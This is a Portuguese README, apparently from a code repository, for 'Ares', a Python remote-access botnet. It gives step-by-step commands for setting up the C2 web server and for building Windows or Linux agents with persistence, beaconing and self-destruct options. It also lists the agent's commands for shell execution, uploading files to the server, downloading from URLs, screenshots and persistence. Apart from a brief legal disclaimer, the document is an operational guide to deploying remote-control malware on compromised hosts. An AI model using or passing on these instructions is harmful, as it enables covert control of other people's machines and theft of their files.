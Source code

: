 ![image](https://cdn.freebiesupply.com/logos/thumbs/2x/ares-01-logo.png)

# Ares

Ares é uma botnet do tipo RAT (Remote Access Tool) escrita em Python.

__ADVERTÊNCIA: Utilize este software apenas de acordo com a legislação atual. O uso indevido deste software pode suscitar questões legais e éticas pelas quais não apoio e nem me responsabilizo .__

Ares foi desenvolvido em cima de duas aplicações principais:

- Um servidor C2 com interface web para gerência e administração dos agentes (bot master and C²)
- Um programa agente (agent), que é executado no host comprometido, e garante a comunicação com o C2

A interface da Web pode ser executada em qualquer servidor executando o Python. O agente pode ser compilado em executáveis nativos usando o ** pyinstaller **.

## Setup

Instalando as dependências:

```
apt install python-pip -y
cd Ares
pip install -r requirements.txt
```

Inicializando a base de dados:

```
cd server
./ares.py initdb
```

Se quiser compilar executáveis para Windows, rode as configurações do Wine (opcional):

```
cd ..
./wine_setup.sh
```

## Server

Rode o webserver em python (suporta nodo debbuging):

```
./ares.py runserver -h 0.0.0.0 -p 8080 --threaded
```

Ou rode usando gunicorn:

```
gunicorn ares:app -b 0.0.0.0:8080 --threads 20
```

Seu servidor estará acessível em http://localhost:8080

## Agent

Rode o agente em python (altere as opções do config.py para adaptar ao seu cenário):

```
cd agent
./agent.py
```

Construa um binário standalone:

```
./builder.py -p Linux --server http://localhost:8080 -o agent
./agent
``` 

Para ver uma lista de opções suportadas, rode ./builder.py -h

```
./agent/builder.py -h
usage: builder.py [-h] -p PLATFORM --server SERVER -o OUTPUT
                  [--hello-interval HELLO_INTERVAL] [--idle_time IDLE_TIME]
                  [--max_failed_connections MAX_FAILED_CONNECTIONS]
                  [--persistent]

Builds an Ares agent.

optional arguments:
  -h, --help            show this help message and exit
  -p PLATFORM, --platform PLATFORM
                        Target platform (Windows, Linux).
  --server SERVER       Address of the CnC server (e.g http://localhost:8080).
  -o OUTPUT, --output OUTPUT
                        Output file name.
  --hello-interval HELLO_INTERVAL
                        Delay (in seconds) between each request to the CnC.
  --idle_time IDLE_TIME
                        Inactivity time (in seconds) after which to go idle.
                        In idle mode, the agent pulls commands less often
                        (every <hello_interval> seconds).
  --max_failed_connections MAX_FAILED_CONNECTIONS
                        The agent will self destruct if no contact with the
                        CnC can be made <max_failed_connections> times in a
                        row.
  --persistent          Automatically install the agent on first run.
```

### Supported agent commands

```
<any shell command>
Executa o comando em um shell e retorna sua saída.

upload <local_file>
Faz uploads <local_file> para o servidor.

download <url> <destination>
Faz o downloads de um arquivo usando HTTP(S).

zip <archive_name> <folder>
Cria um arquivo zip no diretório especificado.

screenshot
Tira um screenshot.

python <command|file>
Executa um comando Python ou um arquivo local.

persist
Instala o agente (persistência).

clean
Desistala o agente.

exit
Mata o processo do agente.

help
Exibe este help.
```
